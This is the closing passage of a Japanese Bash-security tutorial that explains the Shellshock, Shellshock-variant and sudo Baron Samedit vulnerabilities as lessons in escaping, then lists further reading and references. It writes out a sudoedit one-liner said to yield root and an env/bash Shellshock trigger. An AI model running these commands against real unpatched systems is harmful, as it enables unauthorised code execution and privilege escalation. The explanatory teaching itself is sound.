Bash の環境変数処理に欠陥があり、関数定義に続けてコマンドを付けた環境変数を設定するだけで、次回 Bash 起動時にそのコマンドが実行された。CGI スクリプト（`QUERY_STRING`・`HTTP_USER_AGENT` 等）・DHCP クライアントフック・SSH の `ForceCommand` などを通じてリモートから任意コードが実行できた。本記事で解説した「環境変数に関数を export する仕組み」の欠陥が直接の原因だ。攻撃前提: ネットワーク到達性のみ（リモート可能）。CVSS スコア 9.8（Critical）。本記事との関連: Bash 関数・環境変数・eval インジェクション

**CVE-2021-3156（sudo — Baron Samedit）**
`sudo` の引数エスケープ処理（バックスラッシュの扱い）にヒープバッファオーバーフローがあり、一般ユーザーが `sudoedit -s '\' $(python3 -c 'print("A"*65536)')` を実行するだけで root 権限を取得できた。Bash スクリプトの引数エスケープ処理の重要性を示す典型例だ。攻撃前提: ローカルユーザー権限。CVSS スコア 7.8（High）。本記事との関連: 引数処理・エスケープ・権限昇格

**CVE-2014-7169（Bash — Shellshock 亜種）**
CVE-2014-6271 の修正が不完全で、別の方法でも同様の任意コード実行が可能だった。`env X='() { (a)=>\' bash -c "echo date"` のような構文でも攻撃が成立した。セキュリティパッチが 1 つの問題を修正しても根本的な設計の欠陥が残ると亜種が発見される事例だ。攻撃前提: ネットワーク到達性のみ（リモート可能）。CVSS スコア 9.8（Critical）。本記事との関連: Bash の展開処理・エスケープの不完全な修正

---

## 次に学ぶべき記事

- **regex-grep-sed-awk** — Bash スクリプトで使う `grep`・`sed`・`awk` の正規表現を深く理解する
- **linux-privilege-escalation** — スクリプトの PATH 注入・cron ジョブ・書き込み可能スクリプトを使った権限昇格の総合演習
- **ipc-mechanisms** — スクリプトで使うパイプ・UNIX ソケット・シグナルの内部動作

---

## 参考文献

- GNU. "Bash Reference Manual". https://www.gnu.org/software/bash/manual/bash.html
- OWASP. "Command Injection". https://owasp.org/www-community/attacks/Command_Injection
- ShellCheck Wiki. "SC2086: Double quote to prevent globbing and word splitting". https://www.shellcheck.net/wiki/SC2086
- NVD. "CVE-2014-6271 Detail (Shellshock)". https://nvd.nist.gov/vuln/detail/CVE-2014-6271
- NVD. "CVE-2021-3156 Detail (Baron Samedit)". https://nvd.nist.gov/vuln/detail/CVE-2021-3156
- NVD. "CVE-2014-7169 Detail (Shellshock 亜種)". https://nvd.nist.gov/vuln/detail/CVE-2014-7169
- Google. "Shell Style Guide". https://google.github.io/styleguide/shellguide.html
